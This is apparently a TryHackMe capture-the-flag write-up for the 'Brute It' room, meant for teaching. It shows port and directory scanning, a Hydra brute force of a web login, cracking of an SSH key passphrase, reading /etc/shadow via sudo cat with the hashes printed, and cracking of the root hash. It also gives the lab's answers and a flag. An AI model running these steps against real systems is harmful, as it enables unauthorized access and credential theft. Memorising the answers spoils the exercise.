

# Brute It

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Reconnaissance

- Run Nmap Scan

```bash
$ nmap -sC -sV 10.10.151.107 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 14:20 IST
Nmap scan report for 10.10.151.107
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### How many ports are open?
- **Answer:** 2

### What version of SSH is running?
- **Answer:** OpenSSH 7.6p1

### What version of Apache is running?
- **Answer:** 2.4.29

### Which Linux distribution is running?
- **Answer:** Ubuntu

### What is the hidden directory?
- **Answer:** /admin
- **Steps to Reproduce:** 

```bash
$ gobuster dir -u http://10.10.151.107/ -t 50 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.107/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/10 14:23:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.10.151.107/admin/]
/index.html           (Status: 200) [Size: 10918]                                
/server-status        (Status: 403) [Size: 278]                                  
                                                                                 
===============================================================
2021/06/10 14:23:53 Finished
===============================================================
```

---

## Getting a shell



### What is the user:password of the admin panel?
- **Answer:** admin:xavier
- **Steps to Reproduce:** 
    - Using Hydra to bruteforce the password:

```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.151.107 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 14:36:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.151.107:80/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid
[80][http-post-form] host: 10.10.151.107   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 14:37:07
```


### What is John's RSA Private Key passphrase?
- **Answer:** rockinroll
- **Steps to Reproduce:** 
    - Copy the RSA private key and change the file permission to `600`
    - Use `ssh2john` for bruteforcing with john.

```bash
$ locate ssh2john
/usr/share/john/ssh2john.py

$ python3 /usr/share/john/ssh2john.py id_rsa > forjohn.txt

$ john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:05 57.35% (ETA: 14:46:30) 0.1792g/s 1483Kp/s 1483Kc/s 1483KC/s erin1394
Session aborted
```

---

### user.txt
- **Answer:** THM{REDACTED}
- **Steps to Reproduce:** 

```bash
ssh -i id_rsa john@10.10.151.107
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 10 09:17:04 UTC 2021

  System load:  0.0                Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.151.107
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{REDACTED}
```

---

### Web flag
- **Answer:** THM{brut3_f0rce_is_e4sy}
- **Steps to Reproduce:** 
    - Once you login with the admin credentials, you can find the **Web Flag**.

---

## Privilege Escalation

### Find a form to escalate your privileges.

- `cat` can be used to escalate the privilege.

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

---

### What is the root's password?
- **Answer:** football
- **Steps to Reproduce:** 
- `sudo cat` the `/etc/shadow` file to get the hash of root user:

```bash
john@bruteit:~$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.
[..snip..]
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/
```

- Crack the hash using `john` or `hashcat`:

```bash
$ john root_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
football         (?)
1g 0:00:00:00 DONE 2/3 (2021-06-10 14:50) 10.00g/s 1280p/s 1280c/s 1280C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

---

### root.txt
- **Answer:** THM{REDACTED}
- **Steps to Reproduce:** 

```bash
john@bruteit:~$ su
Password: 
root@bruteit:/home/john# cd
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt 
THM{REDACTED}
```

---
